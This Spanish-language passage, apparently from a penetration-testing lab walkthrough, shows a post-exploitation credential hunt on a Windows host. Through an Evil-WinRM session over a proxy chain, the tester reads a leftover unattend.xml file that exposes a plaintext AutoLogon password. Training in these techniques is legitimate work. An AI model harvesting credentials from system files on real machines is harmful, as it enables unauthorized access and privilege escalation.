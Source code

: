 Volviendo a la tarea en cuestión. Nuestro usuario no es un administrador local, y `whoami /priv` no muestra ningún privilegio útil. Al revisar el módulo `Windows Privilege Escalation`, no encontramos nada interesante, así que busquemos credenciales. Después de investigar un poco, encontramos un archivo `unattend.xml` sobrante de una instalación anterior.

  Share Hunting

```r
*Evil-WinRM* PS C:\Users\backupadm\desktop> cd c:\panther

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\panther> dir


    Directory: C:\panther


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022   2:17 PM           6995 unattend.xml
```

Verifiquemos si contiene contraseñas, ya que a veces lo hacen.

  Share Hunting

```r

*Evil-WinRM* PS C:\panther> type unattend.xml

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-International-Core" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <InputLocale>de-de</InputLocale>
            <SystemLocale>de-de</SystemLocale>
            <UILanguage>de-de</UILanguage>
            <UILanguageFallback>de-de</UILanguageFallback>
            <UserLocale>de-de</UserLocale>
        </component>
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <OOBE>
                <HideEULAPage>true</HideEULAPage>
                <HideWirelessSetupInOOBE>true</HideWirelessSetupInOOBE>
                <NetworkLocation>Work</NetworkLocation>
                <ProtectYourPC>1</ProtectYourPC>
            </OOBE>
            <AutoLogon>
                <Password>
                    <Value>Sys26Admin</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>1</LogonCount>
                <Username>ilfserveradm</Username>
            </AutoLogon>
        
        <SNIP>

```